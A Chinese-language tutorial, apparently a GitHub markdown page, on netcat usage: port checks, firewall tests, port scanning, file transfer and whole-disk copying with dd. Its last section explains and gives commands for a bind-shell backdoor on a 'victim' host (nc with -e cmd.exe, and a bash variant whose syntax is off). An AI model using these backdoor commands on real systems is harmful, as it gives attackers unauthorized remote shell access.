

# **nc(网络瑞士军刀)的使用**

- **nc的命令行的常规形式**

一般来说，nc 的命令行包括如下几个部分：

```bash
nc 命令选项 主机 端口
```

> **命令选项**

这部分可能包含 0~N 个选项（注：这部分最复杂，下一个小节单独聊）

> **主机**

这部分可能没有，可能以“点分十进制”形式表示，也可能以“域名”形式表示。

> **端口**

这部分可能没有，可能是单个端口，可能是端口范围。

对于“端口范围”，以两个数字分别表示“开始和结束”，中间以【半角减号】相连。举例：`1-1024`

**[常用的命令行选项]**



- **(网络诊断)测试某个远程主机是否可达**

> 方法

用如下命令可以测试某个 IP 地址（`x.x.x.x`）上的某个监听端口（`xx`）是否开启：

```bash
nc -nv xxx.xxx.xxx.xxx xxx
```

> 关于超时设置

在测试链接的时候，如果你【没】使用 `-w` 这个超时选项，默认情况下 nc 会等待很久，然后才告诉你连接失败。

如果你所处的网络环境稳定且高速（比如：局域网内），那么，你可以追加“`-w` 选项”，设置一个比较小的超时值。在下面的例子中，超时值设为3秒。

```bash
nc -nv -w 3 xxx.xxx.xxx.xxx  xxx
```

> 关于UDP

通常情况下，要测试的端口都是 TCP 协议的端口；如果你碰到特殊情况，需要测试某个 UDP 的端口是否可达。nc 同样能胜任。只需要追加 `-u` 选项。

- **(网络诊断)判断防火墙是否"允许or禁止"某个端口**

假设你正在配置防火墙规则，禁止 TCP 的 `8080` 端口对外监听。那么，你如何【验证】自己的配置是 OK 滴？

更进一步说：如果当前【没有】任何软件开启 `8080` 这个监听端口，你如何判断：该端口号是否会被防火墙阻拦？

有两台主机——“主机C”充当客户端，“主机S”充当服务端。
然后要判断“主机S”上的防火墙是否会拦截其它主机对 `8080` TCP 端口的连接。

> 方法

在“主机S”上运行 nc，让它在 8080 端口，命令如下：

```
nc -lv -p 8080
```

> 如何让nc的监听端口[持续开启，也即后台运行]

在默认情况下，nc 开启 listen 模式充当服务端，在接受【第一次】客户端连接之后，就会把监听端口关闭。

为啥会这样捏？因为当年设计 nc 更多的是作为某种网络诊断/配置工具，并【不是】真拿它当服务端软件来用的。

如果你想要让 nc 始终监听模式，使之能【重复】接受客户端发起的连接，可以追加 `-k` 选项。

- **用nc玩"端口扫描"**

> 方法

下面这个命令，用来扫描 IP 地址为 `x.x.x.x` 的主机，扫描的端口范围从 `1` 到 `1024`：

```
nc -znv xxx.xxx.xxx.xxx  1-1024
```

**-z**:该模式指的是：nc 只判断某个监听端口是否能连上，连上后【不】与对端进行数据通讯。

**-n**:对命令行中的主机不进行解析

**-v**:显示详细的过程（结果）

> 优化输出

可以使用正则表达式，优化输出结果，筛选只要检测到的端口

```
nc -znv xxx.xxx.xxx.xxx 1-1024 | grep succeeded
```

- **让nc走暗网**

> 方法

这里捏使用滴的proxychains

直接配置好proxychains然后执行

- **用nc传输文件**

> 方法

假设你有两台主机 A 与 B，你要把 A 主机上的文件 file1 传输到 B 主机上，保存为 file2

先在【接收端】（B 主机）运行如下命令（其中的 `xxx` 是端口号）：

```
nc -l -p xxx > file2
```

然后在【发送端】（A 主机）运行如下命令:

```
nc xxx.xxx.xxx.xxx.xxx  xxx < file1
```

- **用nc进行容灾备份型**

有些时候难免遇到一些头疼的问题，需要把一台电脑的整块硬盘文件"拷贝"到另一台主机上。

如果使用普通方法，难免会经历：压缩整个硬盘文件，用介质（或者ftp,scp,sftp等等）传输到另一台主机之后，再解压。这些步骤稍微有点费时间的呢，这时就可以尝试使用netcat(即nc)，操作如下：

> 1.首先呢咱们在双方都安装netcat,清洁，简便哟（若是两台都是Linux就更加好办了，很喜欢命令行嘿嘿嘿）
>
> 2.假设你要把 A 主机 `/dev/sda` 磁盘的【原始数据】整个复制到 B 主机的 `/dev/sdb` 磁盘。
>
> 先在【**接收端**】（B 主机）运行如下命令（其中的 `xxx` 是端口号）:
>
> ```
> nc -l -p xxxx  | dd of=/dev/sdb
> ```
>
> 然后在【发送端】（A 主机）运行如下命令:
>
> ```
> dd if=/dev/sda | nc xxx.xxx.xxx.xxx xxx
> ```
>
> 第二条命令中的 `xxx` 是端口号，要与第一条命令中的端口号相同；第二条命令中的 `x.x.x.x` 是【主机 B】的 IP 地址。

然后等待就可以了呢！如今的存储设备越来越大了。“磁盘”或者“分区”，动不动都是几百个 GB，这时候 nc 的【性能优势】就体现出来啦。

- **用nc开启[被动]连接型后门**

> 原理

为了让后门能工作，通常会使用 nc 的 `-e` 选项，该选项的“选项值”是一个可执行文件的路径。

设置了该选项之后，当处于监听状态的 nc 接受到某个连接，会启动“选项值”对应的可执行文件（并得到某个进程），nc 会把该进程的“标准输入输出”与网络通讯【对接】

为了让这个后门用起来足够爽，攻击者通常会让 nc 去启动一个【shell 进程】。对 Windows 系统而言，就是 `cmd.exe`；对 POSIX 系统（Linux or UNIX）而言，就是 `/bin/sh`

在这种情况下（nc 挂载 shell），攻击者远程连入 nc 的端口，就可以直接在这个 shell 上进行各种操作，其效果类似于 SSH 或（老式的）telnet。

> 方法

如果受害者是 Windows 系统，只须如下命令就可以开启一个后门（其中的 `xxx` 是端口号）:

```
nc.exe -l -p xxx -e cmd.exe
```

如果受害者是 POSIX 系统（Linux or UNIX），则用如下命令：

```
nc -l -p xxx /usr/bin/bash
```

